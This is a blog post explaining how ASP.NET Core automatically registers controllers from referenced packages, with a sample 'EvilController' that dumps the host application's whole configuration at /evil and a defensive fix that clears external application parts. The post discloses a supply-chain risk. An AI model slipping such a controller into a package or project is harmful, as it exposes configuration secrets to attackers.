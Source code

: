 ```yaml
---
layout: post
title:  "ASP.NET Core ApplicationPart & EvilController 😱"
date:   2019-12-16 20:40:00 +0100
tags: [C#,.NET Core,ASP.NET Core]
author: Miňo Martiniak
comments: true
---
```


Do you blindly trust third-party libraries?
What if this package contains e.g. following code and you reference it in your ASP.NET Core project?

```csharp
[ApiController]
[Route("[controller]")]
public class EvilController : ControllerBase
{
    [HttpGet]
    public IEnumerable<KeyValuePair<string, string>> Get()
    {
        var configuration = HttpContext.RequestServices.GetService(typeof(IConfiguration)) as IConfiguration;

        return configuration.AsEnumerable().OrderBy(p => p.Key);
    }
}
```

If author (attacker) calls `your-site-url/evil`, than can get the following result:

![](https://gist.github.com/Burgyn/1fafbffcb737b4a73341ae2f7dd1626b/raw/ec45967614cb362c41aa4acd23afed8221e03d2a/EvilOutput.png)

> Of course the code in this controller can be more dangerous.

Do not believe? Try this [demo](https://github.com/Burgyn/Sample.EvilControllers).

## Surprising?

At first glance, yes. Documentation and blog posts say that if we want to add controllers from external assemblies, we need to add `ApplicationPart` by calling `mvcBuilder.AddApplicationPart(assembly);`.
But we do not call anything like this. So why is external `EvilController` discovered?

Answer is [AspNet Core build tooling](https://github.com/aspnet/AspNetCore-Tooling/pull/598) and [ApplicationPartAttribute](https://docs.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.mvc.applicationparts.applicationpartattribute?view=aspnetcore-3.0).

_AspNet Core build tooling_ discovers dependencies that reference MVC features _(in dependencies tree)_ and add them as `ApplicationPartAttribute` to your assembly _(during build time)_. When _ASP.NET Core_ application starts, it use the [ApplicationPartManger](https://github.com/aspnet/AspNetCore/blob/master/src/Mvc/Mvc.Core/src/ApplicationParts/ApplicationPartManager.cs) for adding external assembly as `ApplicationParts`. By default, `ApplicationPartManager` searches for `ApplicationPartAttribute`. That's why the package with `EvilController` is added as an `ApplicationPart` to your application.

## How to avoid it?

Do not use suspicious packages! 😊

Okay, but what if I don't want to study the external library in detail and still want to use it?

In this case, you can remove external application parts from your application. For example:

```csharp
public void ConfigureServices(IServiceCollection services)
{
    services.AddControllers()
        .ConfigureApplicationPartManager(o =>
        {
            o.ApplicationParts.Clear();
            o.ApplicationParts.Add(new AssemblyPart(typeof(Startup).Assembly));
        });
}
```

## References

- [More info about ApplicationPart](https://docs.microsoft.com/en-us/aspnet/core/mvc/advanced/app-parts?view=aspnetcore-3.1)

---

If you liked this article, let me know about it at this [voting poll](https://app.swallowpoll.com/NYBznJrhGr).
